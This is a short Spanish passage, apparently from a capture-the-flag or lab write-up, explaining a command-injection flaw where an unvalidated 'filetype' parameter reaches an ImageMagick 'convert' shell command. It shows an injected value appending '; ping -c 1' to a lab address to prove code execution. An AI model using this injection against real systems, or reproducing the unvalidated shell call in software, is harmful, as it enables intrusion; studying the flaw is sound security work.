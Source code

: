 Toma el parametro `filetype`, se lo agrega a la variable `filename` y ejecuta un comando con la 
variable. El comando se ejecutaría de la siguiente forma:

`convert source_images/my_image.jpg -resize 3000x2000 resized_images/my_image_3000x2000.png`

Al no validar correctamente `filetype`, se convertiría en esto si intentaramos inyectar un comando:

`convert source_images/my_image.jpg -resize 3000x2000 resized_images/my_image_3000x2000.png; ping -c 1 10.10.14.21`

y esta sintaxis es válida en Linux, asi que se ejecutaría el segundo comando sin ningún problema.
